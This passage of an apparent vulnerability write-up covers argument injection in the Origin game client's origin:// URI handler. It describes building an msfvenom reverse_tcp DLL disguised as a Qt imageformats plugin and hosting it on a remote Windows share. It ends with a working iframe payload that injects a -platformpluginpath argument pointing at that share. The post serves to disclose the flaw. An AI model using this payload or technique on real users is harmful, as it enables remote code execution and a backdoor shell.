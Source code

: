 QScriptExtensionPlugin|script| Qt Script
QSensorGesturePluginInterface|sensorgestures| Qt Sensors
QSensorPluginInterface|sensors| Qt Sensors
QSqlDriverPlugin|sqldrivers| Qt SQL
QIconEnginePlugin|iconengines| Qt SVG
QAccessiblePlugin|accessible| Qt Widgets
QStylePlugin|styles| Qt Widgets


Because Origin uses the QtWebEngine and works with image files (jpg, gif, bmp, etc), it requires a few Qt plugins. If we take a look in Origin's install path, we'll see an "imageformats" directory, which is populated by a number of DLLs.

[![]({{site.baseurl}}/assets/imageformats_plugins.png "Origin Arginj")]({{site.baseurl}}/assets/imageformats_plugins.png)

Since we know for sure that Origin works with those following DLLs, we can take one of them and use them as a template for our reverse_tcp.

Before we move forward however, let's just make sure that we can reach a remote destination via the platformpluginpath flag.

[![]({{site.baseurl}}/assets/origin_remote_plugin.png "Origin Arginj")]({{site.baseurl}}/assets/origin_remote_plugin.png)

Looks good to me.

## Creating the Backdoored Plugin

As I mentioned earlier, since we have a few DLLs that we know for sure Origin uses, we can use them as templates for an msfvenom payload. The following image demonstrates the creation of a reverse_tcp by first using a DLL file as a template. Qt is pretty picky about what plugins get loaded into memory, which is why I decided to use a template. However, for future reference, all it requires is a valid ```.qtmetad``` section.


[![]({{site.baseurl}}/assets/create_payload.png "Origin Arginj")]({{site.baseurl}}/assets/create_payload.png)

Now that we've created our backdoored plugin, all we have to do is host a Windows share where we can remotely download it from.

This Windows share must have one of the directories from the table within it, otherwise it won't properly load the DLL. Since we're using imageformats... well, we'll use imageformats.

[![]({{site.baseurl}}/assets/remote_share.png "Origin Arginj")]({{site.baseurl}}/assets/remote_share.png)

Where imageformats is hosting our backdoored plugin "FILE1337.dll"

## Finalizing the Payload

Obviously, this isn't complete yet. We have "arguably" arbitrary code execution, but not remote yet as we have no way to get a user to actually launch our crafted URI. This is where the iframe comes in.

```
<iframe src='origin://?" -platformpluginpath \\NOTDANGEROUS "'>
```
